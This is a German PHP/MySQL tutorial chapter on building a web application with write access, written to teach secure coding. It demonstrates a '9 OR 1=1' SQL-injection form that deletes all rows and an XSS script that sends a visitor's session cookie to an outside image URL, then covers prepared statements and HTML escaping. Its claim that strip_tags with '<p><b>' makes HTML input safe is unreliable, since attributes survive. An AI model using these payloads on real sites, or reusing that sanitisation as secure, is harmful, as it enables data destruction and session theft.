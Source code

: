 ```yaml
---
title: Web-Applikation mit Schreibrecht
order: 20
---
```

Hier der Plan für die einzelnen Seiten dieser Applikation:

| Titel           | Dateiname       |  Methode / Parameter |  Beschreibung                                |
| Person löschen  | delete.php      |  POST pid            |  Löscht die Person mit der angegeben pid.    |
| Person einfügen | person_new.php  |  GET                 |  Zeigt Eingabeformular für eine neue Person  |
| Person einfügen | person_new.php  | POST uid,vorname,nachname, profil,mail,web, blog,feed,title, isfemale,ifshow | Legt eine neue Person an. |
| Person bearbeiten | person_edit.php | GET pid |  Zeigt Bearbeitungs-Formuar an |
| Person bearbeiten | person_edit.php | POST pid, vorname, nachname, profil |  Speichert neue Daten zur Person pid |
{: class="table table-condensed table-bordered" style="width:auto"}



Daten löschen
---------------
Das Löschen könnte so einfach sein: Ein Programm mit namen delete.php, das als Parameter die id der Person erhält, die gelöscht werden soll:

<php>
$pid   = $_POST['pid'];
$dbh->query("DELETE FROM person WHERE pid=$pid" );
</php>

Dieses Programm ist anfällig für folgende Attacke: Ein Aufruf mit einem selbst gebastelten Formular setzt den Parameter pid auf Wert „9 OR 1=1“

<htmlcode>
<form method="post" action="delete.php" >
    <input type="hidden" value="9 OR 1=1" name="pid"/>
    <input type="submit" value="del all"/>
</form>
</htmlcode>

Das führt dazu, dass folgendes SQL-Statement ausgeführt wird:

<sql>
DELETE FROM person WHERE pid=9 OR 1=1
</sql>

Und dieses Statement löscht nicht einen Datensatz sondern alle Datensätze. Diese Art von Attacke auf eine Web-Applikation nennt man „SQL Injection“.

### SQL Injection verhindern
Dieses Problem kann vermeiden indem man die Eingabe genau überprüft. In diesem Beispiel also: nur wenn es sich bei pid um eine ganze Zahl handelt, darf sie verwendet werde. Das wird hier mit einer Regular Expression (die Sie noch nicht verstehen müssen) überprüft:

<php>
if( ! preg_match( '/^\d+$/', $pid ) ) {
    error_log("hack: $pid statt id in delete.php.");
    echo("Hack detected. Please stay at you computer until the police arrive.");
    exit;
}
</php>

Der zweite Ansatz ist die Verwendung von „Prepared Statements“ in der Datenbank. Dabei wird der SQL-Interpreter der Datenbank gänzlich umgangen. 

Als erster Schritt wird mit prepare ein SQL-Statement mit Fragenzeichen als Platzhalter vorbereitet. (Dieses SQL-Statement wird am Server schon mal geparsed und compiliert.) Mit execute wird das Statement ausgeführt, dabei werden die Platzhalter durch echte Daten ersetzt.  Das schöne dabei: es wird nie ein SQL-Statement als String gebaut, sondern die einzufügenden Daten werden binär an den Datenbankserver übertragen. Darin enthaltene SQL-Fragement können keinen Schaden anrichten.

<php>
$sth = $dbh->prepare("DELETE FROM person WHERE pid = ?");
$sth->execute(array($pid));
</php>

`execute` kann auch mehrfach ausgeführt werden, das ist effektiver als eine normales query zu wiederholen.

### Authorisierung nicht vergessen!
Wir haben eine Sicherheitslücke geschlossen, aber es bleibt trotzdem noch viel zu tun: Löschen, Einfügen, Bearbeiten soll nur nach dem Login möglich sein!

Daten einfügen
----------------
Hier das einfachste Programm, das ein neues Werk speichert:

<php>
mysqli_query( $db, "INSERT INTO werk (titel) VALUES ('$_POST[titel]')" );
</php>

Das funktioniert für viele Eingaben, aber was passiert wenn ein Werk den Titel „That’s it“ haben soll? Dann wird folgendes SQL-Statement ausgeführt:

<sql>
INSERT INTO werk (titel) VALUES ('That's it')
</sql>

Das kann nicht funktionieren. Für dieses Problem gibt es in PHP eine einfache und falsche Lösung:

Normalerweise verändert PHP automatisch alle Daten die über GET, POST  und Cookies hereinkommen: vor alle Anführungszeichen wird ein Backslash eingefügt.  Aus „That's it“ wird also automatisch „That\'s it“ , das SQL-Statement funktioniert wieder:

<sql>
INSERT INTO werk (titel) VALUES ('That\'s it')
</sql>

Diese Automatik ist unter dem Namen „magic_quotes“ bekannt und kann in der Apache- oder PHP-Konfiguration abgeschalten14 werden. Auf dem MMT-Server ist sie generell ausgeschalten. Sie sollten das auf Ihrem lokalen Apache-Server auch tun:

<code>
php_flag magic_quotes_gpc off
</code>

Mit folgendem Programm können Sie testen ob auf dem Server magic quotes ein- oder ausgeschalten sind:

<php>
echo( (get_magic_quotes_gpc() ? "mit magic quotes" : "ohne magic quotes") );
echo("<pre>");
print_r($_POST);
echo("</pre>");
</php>

In Wirklichkeit kann man Sie nicht ganz abschalten[&rarr;](http://at.php.net/manual/de/security.magicquotes.disabling.php), aber das ignorieren wir besser. Das Problem betrifft nur Array-Parameter.
Wenn die magic quotes abgeschalten sind kann man das SQL-Problem besser lösen: mit prepared Statements. Hier am Beispiel eines neuen Werkes:

<php>
$sth = $dbh->prepare(
  "INSERT INTO person 
    (uid,vorname,nachname, profil,mail,web, blog,feed,title, isfemale,ifshow) 
      VALUES 
    (?,?,?,?,?,?,?,?,?,?,?)");
                  
$sth->execute(
        array(
          $_POST['uid'],
          $_POST['vorname'],
          $_POST['nachname'],
          $_POST['profil'],
          $_POST['mail'],
          $_POST['web'],
          $_POST['blog'],
          $_POST['feed'],
          $_POST['title'],
          $_POST['isfemale'],
          $_POST['ifshow']
        )
      );
// noch ohne Fehlerbehandlung
</php>

Beim Einfügen in die Personen-Tabelle kann es leicht zu Problemen kommen:  die Tabelle verlangt in 3 Spalten einen eindeutigen Eintrag, wenn man hier einfach nichts eingibt gibt das einen Fehler.

So weit sollten Sie es nicht kommen lasse: Sie sollten die Eingaben aus dem Webformular schon vor dem INSERT prüfen und dann ausführliche, vollständige, deutsche Fehlermeldungen ausgeben.

![Abbildung 149: Fehlermeldung der Datenbank vs. selbst gestaltete Fehlermeldung](/images/image367.png)

Falls das Einfügen der Daten funktioniert hat und in der Tabelle ein autoincrement-Feld als Primärschlüssel vorhanden ist, kann man den Wert des Schlüssels im neuen Datensatz auslesen und weiter verwenden:

      $pid = $dbh->lastInsertId(); 
      header("Location: person.php?pid=$pid");

Auch hier ist eine Weiterleitung direkt nach dem POST-Request sinnvoll: nach dem Einfügen des Datensatzes wird direkZZt auf die Anzeige des neuen Datensatzes weitergeleitet. Falls man danach auf „Reload“ drückt wird der Datensatz neu angezeigt, aber keinesfalls ein zweites Mal eingefügt.

Einen Datensatz bearbeiten
---------------------------
Wir wollen einen Datensatz aus der Datenbank laden, in einem Formular zur Bearbeitung anbieten, und dann wieder in der Datenbank speichern.

![Abbildung 150: Formular zum Bearbeiten einer Person](/images/image368.png)

Das Lesen des Datensatzes aus der Datenbank erfolgt nun auch mit einem prepared Statement:

<php>
$sth = $dbh->prepare("SELECT pid,vorname,nachname,profil FROM person WHERE pid = :pid");
$sth->bindValue(':pid', $_GET['pid'], PDO::PARAM_INT);
$sth->execute();
$person=$sth->fetchObject();
</php>

Bei der Darstellung des Bearbeitungs-Formulars werden die Daten nun als Standardwerte dargestellt. Das passiert bei Textfeldern mit dem Value-Attribute und bei Textareas als Inhalt des Tags:

<htmlcode>
  <input name="vorname" value="Tobias">
  <textarea name="profil" rows="7">Webdesigner und Programmierer.</textarea>
</htmlcode>

Achtung: Falls in den Daten Anführungszeichen, kaufmännische Unds oder Kleiner-Zeichen vorkommen müssen diese für HTML escaped werden.  Hier ein Beispiel in MySQL:

<sql>
mysql> select vorname,profil from person where pid=538;
+---------------------+-----------------------------+
| vorname             | profil                      |
+---------------------+-----------------------------+
| Tobias "the coder"  | Mein Lieblings-Tag: <style> |
+---------------------+-----------------------------+
1 row in set (0.00 sec)
</sql>

So würde die Darstellung der Eingabefelder nicht funktionieren:

<htmlcode>
  <input name="vorname" value="Tobias "the coder" " />
  <textarea name="profil" rows="7">Mein Lieblings-Tag: <style></textarea>
</htmlcode>

Richtig ist die Darstellung gewisser Zeichen als HTML entities:

<htmlcode>
  <input name="vorname" value="Tobias &quot;the coder&quot; " />
  <textarea name="profil" rows="7">Mein Lieblings-Tag: &lt;style&gt;</textarea>
</htmlcode>

Diese Ersetzung wird mit der Funktion htmlspecialchars vorgenommen:

<php>
$person->vorname  = htmlspecialchars( $person->vorname  );
</php>

Zusammenfassend sieht die Darstellung des Eingabeformulars so aus:

<php>
// $pid  muss man nicht escapen, das ist blos ein integer
    $person->vorname  = htmlspecialchars( $person->vorname  );
    $person->nachname = htmlspecialchars( $person->nachname );
    $person->profil   = htmlspecialchars( $person->profil   );

include "header.php";
?>
<form action="person_edit.php" method="post">
<input type="hidden" name="pid" value="<?= $person->pid ?>" />
<p><label class="leftcol" for="vorname">Vorname</label>   
   <input name="vorname" value="<?= $person->vorname ?>" /></p>
<p><label class="leftcol" for="nachname">Nachname</label> 
   <input  name="nachname" value="<?= $person->nachname ?>" /></p>
<p><label class="leftcol" for="profil">Profil</label>     
   <textarea name="profil" rows="7" cols="40" ><?= $person->profil ?></textarea></p>
<p><span class="leftcol"></span><input type="submit" value="speichern" /></p>
</form>
</php>

Die veränderten Daten werden mit POST an person_edit.php geschickt. Aus den Daten wird ein UPDATE-Statement erstellt:

<php>
if( $_POST['pid'] ) {
  $sth = $dbh->prepare( "UPDATE person SET vorname = ?, nachname = ?, profil = ?  WHERE pid=?");
  $sth->execute(array(
    $_POST['vorname'],
    $_POST['nachname'],
    $_POST['profil'],
    $_POST['pid']
  ));
  header("Location: person.php?pid=$_POST[pid]");
  exit;
}
</php>

Escapen von HTML
-----------------
Das Escapen der Daten für HTML hätten wir von Anfang an bei jeder Ausgabe von Daten aus der Datenbank zu müssen. Also auch schon in Kapitel 6.3 beim Anzeigen der Daten. Damals haben wir einfach die Daten direkt mit echo ausgegeben:

<php>
<?= $anrede ?>
<?= $person->vorname ?>
<?= $person->nachname ?>
hat insgesamt  <?= $werks_anz ?> Werke in dieser Datenbank.
</php>

Wenn hier im Profil wieder „Mein Lieblings-Tag ist &lt;style&gt;“ steht, und dieser Text einfach ausgegeben wird, dann „verschwindet“ der Rest der Webseite, weil er sich nun innerhalb eines Style-Tags befindet.

<php>
$bildpfad  = htmlspecialchars( $person['bildpfad'] );
$uid       = htmlspecialchars( $person['uid'     ] );
$vorname   = htmlspecialchars( $person['vorname' ] );
$nachname  = htmlspecialchars( $person['nachname'] );
$profil    = htmlspecialchars( $person['profil'  ] );

echo <<<EOM
    <p><img src="http://multimediaart.at/media/profil/$bildpfad" style="float:right" />
    $anrede $vorname $nachname hat insgesamt x Werke in dieser Datenbank.
    $ersie hat den Usernamen $uid.</p>

    <div>$profil</div>
EOM;
</php>

Damit funktioniert nun die Darstellung des Datensatzes richtig:

![Abbildung 151: Korrekte Darstellung eines Datensatzes mit kleiner-Zeichen](/images/image369.png)

 Darstellen von HTML
---------------------
Im letzten Beispielen wurde der eingegebene HTML-Tag sichtbar auf der Webseite angezeigt. Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags wieder anzeigen?

### Gefahren
Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist gefährlich! Dazu zwei Beispiele: Sie bauen ein Gästebuch in dem BesucherInnen beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://laucher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild" />
</htmlcode>

Das Bild wird also nicht von Ihrem Webserver geladen, sondern vom Webserver von Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes aufgerufen. D.h. Herr Lauscher kann sehr bequem mit-loggen wie viele Zugriffe auf das Gästebuch erfolgen. Falls Herr Lauscher die Gästebuch-Besucher schon kennt (schon ein Cookie in Ihrem Browser gesetzt hat) kann er sie auch identifizieren.

Sie haben Herrn Lauscher also die Möglichkeit gegeben sehr viel über Ihre BesucherInne zu erfahren. So etwas ähnliches passiert z.B. wenn Sie Google Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen: Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer Vorherigen Suche noch ein Cookie haben.)

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas Javascript ein:

<htmlcode>
Hallo Welt 

<img src="http://users.local/bild.php" alt="harmloses bild" id="hack_tool" />
<script>
   document.getElementById("hack_tool").src += "?keks=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" src="http://users.local/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn Ihres Gästebuchs entwenden. Sie kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Lassen Sie niemals, niemals, niemals zu, dass Fremde Javascript in Ihre Site einspeisen können!

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und „wirkt nicht“:


![Abbildung 152: Eingegebener HTML+Javascript-Code wird escaped und dargestellt](/images/image370.png)

### Sichere Eingabe von HTML
Für die Beispiel-Applikation wollen wir Zulassen, dass im Profil die HTML-Tags &lt;p&gt; und &lt;b&gt; verwendet werden können, mehr nicht. Dass es nur diese Tags und keine anderen sind wird bei der Eingabe und der Bearbeitung sicher gestellt:

<php>
$profil = strip_tags( $_POST['profil'], "<p><b>" );
</php>

Nun können Sie auch die Ausgabe des Profils umstellen und auf das escapen verzichten:

Die Eingabe des HTML-Codes können Sie mit einem Javascript-Editor wie TinyMCE16 erleichtern. TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Abbildung 153: Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/image371.png)



